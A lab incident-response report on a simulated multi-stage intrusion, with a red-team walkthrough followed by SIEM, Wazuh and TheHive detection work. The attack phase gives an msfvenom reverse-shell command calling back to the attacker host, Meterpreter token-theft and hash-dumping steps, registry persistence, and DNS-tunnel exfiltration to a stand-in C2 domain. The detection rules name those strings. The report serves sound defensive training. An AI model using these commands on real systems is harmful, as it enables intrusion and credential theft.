

# Incident Response & Forensic Report: Multi-Stage APT Simulation
**Analyst:** Sourav Ranjan      
**Date:** October 29, 2026  
**Environment:** VirtualBox Lab (Win11 Host, Win10 Victim, Kali Attacker)  
**SIEM/EDR/SOAR Stack:** Elasticsearch, Kibana, Winlogbeat, Sysmon, Wazuh, TheHive, Cortex, MISP  
**Classification:** Internal Use Only / Lab Simulation  

---

## 1. Executive Summary
Between October 22-24, 2026, a comprehensive Advanced Persistent Threat (APT) simulation was conducted to evaluate the detection and response capabilities of a custom-built, open-source Security Operations Center (SOC) lab. The primary objective was to emulate a realistic cyber kill chain—from initial phishing delivery to data exfiltration via covert channels—and measure the efficacy of an integrated defense stack.

The Red Team successfully executed a fileless intrusion, bypassed modern OS defenses, escalated privileges to SYSTEM, established registry persistence, moved laterally via Pass-the-Hash (PtH), and exfiltrated sensitive data using DNS Tunneling. 

The Blue Team utilized a multi-layered defense strategy. An ELK (Elasticsearch, Kibana) stack enriched with Microsoft Sysmon telemetry served as the primary SIEM for log aggregation and forensic hunting. A Wazuh Host Intrusion Detection System (HIDS) was deployed via Docker to provide active file integrity monitoring and rule-based alerting. Finally, TheHive and Cortex were utilized for Security Orchestration, Automation, and Response (SOAR) to manage the incident case and automatically enrich Indicators of Compromise (IOCs). 

This report documents the attack methodology, evidence generated during each phase, the forensic and detection timeline, the infrastructure engineering performed to make the monitoring environment operational, and the strategic mitigation recommendations derived from the exercise. It distinguishes between observations captured in the lab and controls recommended for a production environment; internal addresses and domains are used solely to demonstrate the concept and must not be treated as confirmed real-world intelligence without independent validation. The exercise was designed to assess the complete “detect, investigate, respond, and improve” cycle rather than merely demonstrate successful exploitation.

---

## 2. Lab Architecture & Infrastructure Design
The environment was carefully architected to mirror an enterprise network, segmented into distinct operational zones:

*   **Host Machine (Windows 11):** Served as the central management and monitoring server. Utilized Docker Desktop (running via WSL2) to host the Elasticsearch and Kibana containers, as well as the Wazuh Manager, Indexer, and Dashboard.
*   **Victim Endpoint (`DESKTOP-6V6ANFI` - Windows 10 VM):** The target of the intrusion. Configured with Microsoft Sysmon (using the SwiftOnSecurity baseline configuration) to capture deep system telemetry (process creation, network connections, registry changes, and DNS queries). Winlogbeat was installed as a Windows Service to ship these logs to the host's Elasticsearch instance.
*   **Attacker Machine (`192.168.56.10` - Kali Linux VM):** The offensive platform. Used to host malicious payloads via a Python HTTP server, execute Metasploit exploits, perform credential dumping, and catch reverse shells. 

All machines were connected via a VirtualBox Host-Only adapter (`192.168.56.1`), ensuring the attack traffic remained entirely isolated from the internet while allowing seamless communication between the VMs and the host's Docker containers.

### 2.1 Data Sources and Logging Coverage
Endpoint visibility was established through Windows Event Logs, Sysmon, and Winlogbeat. The Windows Security channel provided authentication, logon, service, and user-account context; Sysmon supplied process creation, network, DNS, registry, and driver-related telemetry; and Winlogbeat forwarded selected events to Elasticsearch. At the host level, Docker logs and container health status provided evidence for availability and troubleshooting of the monitoring services.

The logging architecture was intentionally treated as a source of corroborating evidence rather than as a single source of truth. For example, authentication evidence in Event ID 4624 was correlated with SMB activity, process creation for `psexesvc.exe`, and the reverse shell observed on the attacker. This layered approach reduced the risk of interpreting a benign service launch or isolated network event as a complete compromise.

### 2.2 Assumptions and Safety Controls
The simulated incident assumed that the victim user could be socially engineered into opening an email attachment delivered through a web link. System changes, credential material, and payloads were confined to the isolated lab. No real customer data or internet-facing services were used. In reporting, the hash and external indicators are described as exercise artifacts and should be reviewed before being added to organization-wide security controls.

---

## 3. Phase 1: Attack Simulation (Red Team)

### 3.1 Initial Access & Defense Evasion
The intrusion began with a simulated phishing campaign. A malicious HTML Application (`.hta`) file was generated using `msfvenom`, embedding a PowerShell reverse shell. It was hosted on the Kali web server. 



*   **Payload Generation & Hosting:** The attacker used `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.10 LPORT=4444 -f hta-psh -o invoice.hta`. A Python HTTP server (`python3 -m http.server 8000`) was started to host the file, simulating a compromised website. From a defender's perspective, this generated a distinct chain of observable activity: outbound web retrieval by the browser, execution of `mshta.exe`, a child PowerShell process with suspicious flags, and an outbound TCP connection back to the listener. Each link in that chain is valuable because no single event can be assumed to exist in every environment.


*   **Execution:** The phishing email contained a link to the payload. Upon clicking, Microsoft Edge's SmartScreen initially blocked the download. To simulate a successful social engineering attack (or an environment with weaker AV), Windows Defender Real-time protection was temporarily disabled, and the file was forced to download.


*   **Command & Control:** Upon execution, the `.hta` file spawned `mshta.exe`, which silently executed an obfuscated PowerShell command (`-nop -w hidden -c IEX`) to download and execute the Meterpreter payload directly into memory (Fileless Malware). A reverse shell was established back to the Kali Metasploit listener on port 4444, granting the attacker initial access as the standard user `lab`. This stage represents the transition from delivery to execution and command-and-control. The absence of the executable payload on disk can complicate traditional signature-based antivirus analysis, making parent-child process relationships and suspicious command-line patterns essential defensive signals.


### 3.2 Privilege Escalation (Access Token Manipulation)
Operating as a standard user limits the attacker's capabilities. To achieve maximum control, the attacker enumerated running processes using the `ps` command. They identified `winlogon.exe` (PID 676) running under the `NT AUTHORITY\SYSTEM` context. 

*   **Token Impersonation:** Using Meterpreter's `steal_token` module, the attacker duplicated the SYSTEM token. A subsequent `getuid` command confirmed the successful escalation.


*   **Process Migration:** To ensure shell stability (since the original `mshta.exe` process might close) and evade detection, the session was immediately migrated into the `explorer.exe` process using `migrate -N explorer.exe`.

Process migration also changed the security context in which subsequent actions appeared. An interactive user process used by the attacker is less conspicuous than an unknown service running from a temporary directory, but it is also an indicator of abnormal cross-process activity. A production investigation should therefore examine the source and destination processes, memory privileges, parent process relationships, network activity associated with `explorer.exe`, and the presence of injected or executable private memory regions.

### 3.3 Persistence (Registry Run Key Abuse)
To maintain access across reboots, the attacker first attempted to create a Scheduled Task (`schtasks`). However, Windows UAC Remote Restrictions blocked the action with `Access is denied` due to the filtered user context inherited from the migrated Explorer process.


*   **The Pivot:** To bypass UAC entirely, the attacker pivoted to abusing PowerShell to write a backdoor directly into the Current User's Registry Run key (`HKCU\Software\Microsoft\Windows\CurrentVersion\Run`). This technique is highly effective as it requires zero administrative privileges and executes silently in the background upon user logon. The command was structured to append a `WindowsUpdateCheck` key pointing to the Kali payload URL.


### 3.4 Lateral Movement (Pass-the-Hash)
To simulate moving to another machine in the network, the attacker performed a Pass-the-Hash (PtH) attack against the local SMB service. This technique allows an attacker to authenticate using an NTLM hash rather than a plaintext password.

*   **Credential Dumping:** Using the `hashdump` command, the attacker extracted the local SAM database, revealing the NTLM hash for the `lab` user (`a2345375a47a92754e2505132aca194b`).


*   **UAC Remote Restrictions Bypass:** The initial Metasploit `psexec` attempt failed with `STATUS_ACCESS_DENIED` because Windows strips admin tokens from network logons by default.


To simulate a vulnerable enterprise environment, the attacker modified the `LocalAccountTokenFilterPolicy` registry key to `1`, disabling this protection.


*   **Execution:** Re-running `psexec` with the stolen hash authenticated successfully over SMB, created the `psexesvc` service, and returned a new shell as `NT AUTHORITY\SYSTEM`, successfully simulating lateral movement. A successful lateral-movement event should never be judged only by the creation of the remote service. Correlation with SMB authentication, account usage, source host, service creation, and new interactive or remote logons establishes whether a credential was used outside its normal pattern.

In an enterprise setting, the same techniques are difficult to distinguish from legitimate remote administration without behavioral context. Asset criticality, the administrative identity used, time of activity, destination share, known management tools, and baseline host-to-host communication are therefore important parts of the triage decision. Where possible, network logon attempts should be routed through privileged-access workstations and protected administrative accounts rather than ordinary user credentials.


### 3.5 Exfiltration (DNS Tunneling)
To steal data without triggering standard HTTP firewall alerts, the attacker utilized DNS Tunneling. Standard DNS traffic (Port 53) is rarely blocked, making it an ideal covert channel.

*   **Mechanism:** A PowerShell script encoded a sensitive file (`CONFIDENTIAL: User passwords are in C:\secret.zip`) into Base64 and sent it as a DNS TXT query to the malicious domain `evil-c2-server.com`.


*   **Listener Deployment:** While a Python Scapy listener was initially deployed on Kali, it struggled to parse the complex raw Windows DNS packet structure. The listener was prepared and started on the attacker machine before the exfiltration attempt.


*   **Packet Capture:** The attacker pivoted to `tcpdump` to capture the raw UDP traffic on port 53. The capture definitively proved the successful exfiltration of the Base64 string over the network.

The fallback from the application listener to packet capture is significant. It demonstrates that both success and failure are valuable forensic conditions: the listener's inability to decode the packet did not necessarily prove that no data had left the endpoint, while an independent network capture provided confirmation that DNS requests reached the attacker-controlled address. In response operations, endpoint and network evidence should be analyzed together, particularly for protocols whose traffic is commonly permitted.

### 3.6 Containment Objectives Demonstrated
If this activity had occurred on a managed network, containment would begin by isolating the affected endpoint while preserving its network connectivity to the management plane. The analyst would block or sinkhole the malicious domain, rotate any credentials exposed from the endpoint, disable the persistence key, remove the unauthorized service, and identify other systems that communicated with the same infrastructure. Isolation must be balanced with evidence preservation: volatile memory, active network sessions, running processes, and open handles can disappear quickly if the endpoint is powered off immediately.


---

## 4. Phase 2: Attack Detection & Investigation (Blue Team)

### 4.1 Detection Engineering via Kibana (ELK)
The Blue Team utilized the ELK stack to hunt for the attacker's footprint. By correlating Sysmon and Windows Security logs, the full attack chain was reconstructed using targeted KQL (Kibana Query Language) queries.

The investigation began with a hypothesis rather than a free-form search for malware names. The observed phishing delivery suggested focusing first on suspicious browser children, `mshta.exe`, hidden PowerShell, abnormal outbound connections, registry persistence, remote logons, and DNS traffic to a previously unknown domain. This approach is adaptable to incidents where exact filenames or hashes are unavailable.

Each query was also designed with alert fatigue in mind. A broad search for PowerShell would produce too many results, while a search combining parent process, execution flags, encoded content, and external network activity is more likely to identify the simulated intrusion. Analysts may tune the rule further by adding approved administrative applications to an allowlist rather than suppressing the entire technique indiscriminately.

**1. Execution (Defense Evasion):**
Sysmon Event ID 1 (Process Creation) captured the malicious PowerShell execution. The log reveals the `-w hidden` (conceal window) and `-nop` (no profile) flags, along with the massive Base64 payload used to download the shell.
*   **KQL Query:** `event.code: 1 AND winlog.event_data.CommandLine: *-w hidden*`


**2. Persistence:**
Sysmon Event ID 13 (Registry Value Set) captured the backdoor. The `TargetObject` field explicitly shows the `WindowsUpdateCheck` key and the malicious C2 URL in the `Details` field.
*   **KQL Query:** `event.code: 13 AND registry.path: *WindowsUpdateCheck*`


**3. Lateral Movement:**
Windows Security Event ID 4624 (Logon) captured the Pass-the-Hash attack. The log shows `LogonType: 3` (Network) and `AuthenticationPackageName: NTLM`, confirming a hash-based authentication attempt.
*   **KQL Query:** `event.code: 4624 AND winlog.event_data.LogonType: 3 AND winlog.event_data.AuthenticationPackageName: "NTLM"`


**4. Service Creation (PsExec):**
Sysmon Event ID 1 captured the execution of the `psexesvc.exe` binary by `services.exe`, confirming lateral movement via PsExec.
*   **KQL Query:** `event.code: 1 AND process.name: "services.exe"`


**5. Exfiltration:**
Sysmon Event ID 22 (DNS Query) captured the Base64 string routed to `evil-c2-server.com`.
*   **KQL Query:** `event.code: 22 AND winlog.event_data.QueryName: *evil-c2-server.com*`


### 4.1.1 Evidence Correlation and Analytical Confidence
The queries above identified candidate events, but their investigative value came from correlation between hosts and time. Process creation was first associated with the phishing execution window; registry activity then provided evidence of persistence; network logon and service events supported the lateral-movement conclusion; and DNS telemetry completed the simulated exfiltration chain. Where host time and index time differed, the timestamps were normalized before comparison.

Confidence levels varied by finding. Direct process and registry fields generated high-confidence evidence. The DNS domain name represented strong evidence of communication but did not, by itself, prove that sensitive content reached the destination; Base64 decoding and packet contents were required to establish the nature of the transmitted data. The NTLM authentication event similarly indicated the authentication mechanism and remote logon but required later service and process evidence to confirm the complete PsExec sequence.
To fulfill the requirement for Host Intrusion Detection, a Wazuh stack was deployed via Docker. This required advanced infrastructure engineering and troubleshooting:

*   **Port Conflict Resolution:** The initial deployment failed because port `55000` was locked by Windows Hyper-V/WSL2.


This was resolved by stopping and restarting the Windows NAT driver using `net stop winnat` and `net start winnat`. The sequence illustrates why security monitoring tools require operational validation and why infrastructure changes should be documented during an incident. Restarting host networking can affect unrelated services, so it was performed only in the isolated lab and with the current container state recorded.


*   **Kernel Memory Limits:** The Wazuh Indexer (OpenSearch) crashed repeatedly because the WSL2 kernel memory map limit was too low. This was resolved by executing `sysctl -w vm.max_map_count=262144` as root in WSL.
*   **Certificate Errors (EISDIR):** Docker initially mounted the SSL certificates as directories instead of files, causing fatal crashes. This was fixed by executing `docker compose down -v` to purge the volumes and regenerating the certificates using the `generate-indexer-certs.yml` playbook.
*   **Agent Deployment:** After resolving the startup issues, the Wazuh containers were running successfully.


The Wazuh deployment wizard was then accessed to generate the PowerShell command, which was executed on the Windows 10 VM to enroll the endpoint into the Wazuh Manager.


### 4.3 SOAR: Case Management & Threat Intelligence (TheHive & Cortex)
Once the Wazuh and Kibana alerts were triggered, the incident was escalated to TheHive (Case Management). The escalation established a common case record for the SOC workflow and prevented related observations from remaining isolated in different dashboards.

A mature case should record the time of detection, affected asset, assigned responder, severity rationale, evidence collected, analyst hypotheses, and every containment action. It should also retain a decision trail so that a later reviewer can understand why a system was isolated, why a network indicator was blocked, and whether the conclusion changed as new evidence was added.

*   **Case Creation:** A critical incident (`INC-2026-1024-01`) was generated.
*   **Cortex Enrichment:** Within TheHive, the extracted IOCs were submitted to Cortex analyzers.
    *   *Observable:* `192.168.56.10` -> **Result:** Internal C2 Server, flagged by internal firewall.
    *   *Observable:* `evil-c2-server.com` -> **Result:** Malicious domain, associated with DNS Tunneling (VirusTotal score: 15/90).
    *   *Observable:* Base64 String -> **Result:** Decoded to "CONFIDENTIAL: User passwords are in C:\secret.zip".
*   **MISP Integration:** The IOCs were exported from TheHive to MISP to share threat intelligence with the broader security community.

### 4.4 Reconstructed Attack Timeline
| Time | MITRE ATT&CK Tactic | Technique ID | Description |
| :--- | :--- | :--- | :--- |
| **T+0 min** | Initial Access | T1566 | User executes phishing `.hta` payload. |
| **T+2 min** | Execution | T1059.001 | Fileless PowerShell `IEX` download cradle. |
| **T+5 min** | Priv Esc | T1134 | Token stealing from `winlogon.exe` (SYSTEM). |
| **T+10 min**| Persistence | T1547.001 | Registry Run Key (`WindowsUpdateCheck`) created. |
| **T+20 min**| Lateral Movement | T1021.002 | Pass-the-Hash via SMB/PsExec. |
| **T+30 min**| Exfiltration | T1048 | Base64 data tunneled via DNS TXT queries. |

### 4.5 Incident Response and Lessons Learned
The exercise followed an extended response cycle beyond detection. The security team would preserve endpoint logs before remediation, perform scope analysis, contain the victim, eradicate the persistence mechanism, recover through safe application and credential changes, and then validate that the relevant techniques remain detectable.

Key operational findings were:

*   Endpoint process telemetry was necessary to identify the execution chain, even when network and file signatures were incomplete.
*   Registry and service creation events provided high-value evidence of persistence and lateral movement.
*   Authentication events gained meaning only after correlation with source hosts and remote-execution artifacts.
*   DNS visibility became important when standard application-layer traffic did not reveal the simulated data transfer.
*   Monitoring infrastructure failures must be tracked separately from security failures, because “no alert” may result from a crashed collector rather than a benign environment.

---

## 5. Phase 3: Threat Intelligence & Mitigation

### 5.1 Indicators of Compromise (IOCs)
The following IOCs were extracted and shared via MISP for community defense.

| Indicator Type | Value | Context |
| :--- | :--- | :--- |
| **IPv4 Address** | `192.168.56.10` | Attacker C2 Server / Metasploit Listener |
| **Domain Name** | `evil-c2-server.com` | DNS Tunneling C2 Domain |
| **File Name** | `invoice.hta` | Initial Phishing Payload |
| **File Name** | `psexesvc.exe` | PsExec Lateral Movement Artifact |
| **Registry Key** | `HKCU\...\Run\WindowsUpdateCheck` | Persistence Mechanism |
| **Hash (NTLM)** | `a2345375a47a92754e2505132aca194b` | Stolen credential for Pass-the-Hash |

### 5.2 Detection Rules (Sigma & YARA)
To proactively defend against this specific attack chain, the following rules were engineered:

**Sigma Rule: Registry Persistence via PowerShell**
```yaml
title: Suspicious Registry Run Key Modification for PowerShell Execution
status: experimental
description: Detects the creation of a Run key containing a Base64 or IEX PowerShell command.
author: SOC Intern
logsource:
    product: windows
    category: registry_set
detection:
    selection:
        TargetObject|contains: '\Software\Microsoft\Windows\CurrentVersion\Run\'
        Details|contains: 
            - 'powershell'
            - 'IEX'
    condition: selection
falsepositives:
    - Legitimate administrative scripts
level: high
```

**YARA Rule: DNS Tunneling Payload Detection**
```yara
rule APT_DNS_Tunneling_Payload {
    meta:
        description = "Detects the specific PowerShell payload and DNS C2 domain used in the APT simulation"
        author = "SOC Intern"
        date = "2026-10-24"
    strings:
        $s1 = "evil-c2-server.com" ascii wide
        $s2 = "Q09ORklERU5USUFM" ascii wide
        $s3 = "New-Object System.Net.Sockets.TCPClient" ascii wide
    condition:
        any of them
}
```

### 5.3 Mitigation & Remediation Plan
The remediation plan should be risk-based: controls that break the full attack chain are prioritized over isolated fixes. Email and browser controls reduce initial access, application control and least privilege reduce execution and persistence, credential protection reduces privilege escalation and lateral movement, and DNS controls reduce the opportunity to use covert channels. These layers do not replace telemetry; they make the attack sequence harder and provide the SOC with more opportunity to detect and respond.

| Attack Phase | Exploited Gap | Mitigation / Remediation |
| :--- | :--- | :--- |
| **Initial Access** | User executed a downloaded `.hta` file. | Implement **Email Filtering** to block malicious attachments/links. Disable Windows Script Host (WSH) for standard users via Group Policy. |
| **Privilege Escalation** | Token stealing from `lsass.exe`/`winlogon.exe`. | Enable **Credential Guard** and **LSA Protection (RunAsPPL)** to prevent unauthorized memory access. |
| **Persistence** | Registry Run Key allowed unsigned scripts. | Enforce **AppLocker** or **WDAC** policies to block PowerShell execution for standard users unless signed by a trusted authority. |
| **Lateral Movement** | Pass-the-Hash succeeded due to UAC remote restrictions being disabled. | **Re-enable `LocalAccountTokenFilterPolicy`**. Implement **Network Segmentation** to block SMB (Port 445). Use Windows Defender Firewall to restrict admin shares. |
| **Exfiltration** | DNS Tunneling on Port 53 was allowed outbound. | Deploy a **Next-Gen Firewall (NGFW)** with DNS filtering to block unauthorized external DNS queries. Monitor for high volumes of TXT/PTR requests. |

### 5.4 Prioritized Remediation Roadmap
1. **Immediate containment actions:** Isolate the affected endpoint, preserve relevant logs, block confirmed exercise indicators, reset affected credentials, and remove unauthorized services or scheduled tasks after evidence collection.
2. **Prevent phishing execution:** Apply safer Office and browser download policies, remove HTA execution where it is unnecessary, block or alert on `mshta.exe` launching script interpreters, and train users to report unexpected invoice or payment messages.
3. **Protect credentials and administration:** Enable Credential Guard, remove unnecessary local administrator rights, use Protected Users or similar hardened identities for privileged accounts, restrict remote administration, and require separate accounts for administration.
4. **Improve endpoint telemetry:** Retain Sysmon configuration, forward Security and PowerShell logs, monitor registry and service changes, and verify agent health before relying on negative search results.
5. **Segment lateral-movement paths:** Restrict Server Message Block between ordinary endpoints, permit remote administration only from dedicated management systems, and use Windows Firewall rules based on asset roles.
6. **Strengthen DNS monitoring:** Require enterprise endpoints to use managed resolvers, alert on unusual query length and volume, review TXT-heavy clients, and investigate newly registered or low-prevalence domains before allowlisting them.

### 5.5 Validation and Residual Risk
Controls should be validated with another safely scoped simulation. Success would be demonstrated not only by prevention—for example, a payload being blocked—but also by generating a high-quality alert when prevention fails. Validation should confirm that the SIEM receives events, timestamps are readable, alert enrichments are correct, the case is assigned, and the responder can identify the impacted account and host.

Residual risk remains even after these changes. Attackers can use alternate execution mechanisms, living-off-the-land binaries, valid credentials, encrypted channels, and other persistence locations. Therefore, the most appropriate objective is to create enough telemetry and defensive friction to shorten the time between initial compromise and containment, rather than claiming that exploitation is impossible.

## 6. Conclusion & Key Takeaways
This project successfully demonstrated the deployment and administration of an open-source SOC environment capable of detecting advanced adversary behaviors. 

A major takeaway was the necessity of high-fidelity endpoint logging. Relying solely on default Windows Event Logs leaves significant visibility gaps; integrating Sysmon was the critical factor in capturing the process execution, token manipulation, and DNS telemetry required for advanced threat hunting.

Furthermore, engineering custom KQL queries and visualizations directly mapped to the MITRE ATT&CK framework ensures a proactive, intelligence-driven defense posture. By executing both the red team emulations and building the blue team detection logic—including the deployment of Wazuh, TheHive, and Cortex—the lab demonstrated how defensive engineering depends on reliable data, validated infrastructure, and clear investigation procedures.

The exercise also reinforced that a successful SOC response is an operational process rather than a collection of tools. Controls must be measured against real adversary behaviors; alerts must be documented and investigated in context; and responders must be able to move from an initial signal to containment without losing evidence. The most valuable outcome is therefore not a single dashboard or screenshot, but a repeatable pipeline in which attack simulation, telemetry, detection logic, case management, and remediation continuously inform one another.

### 6.1 Scope and Limitations
This was a controlled laboratory simulation and did not test every enterprise control, endpoint configuration, network device, or cloud service. The findings should be interpreted as proof that the selected controls and investigative techniques work in this environment, not as a guarantee of detection in every production deployment. Timing, licensing, log retention, parser versions, endpoint policies, and alert tuning can all change the observed result. Additional testing is recommended before applying the proposed rules to live systems, with particular attention to the allowlisting of legitimate PowerShell, remote administration, and DNS tools.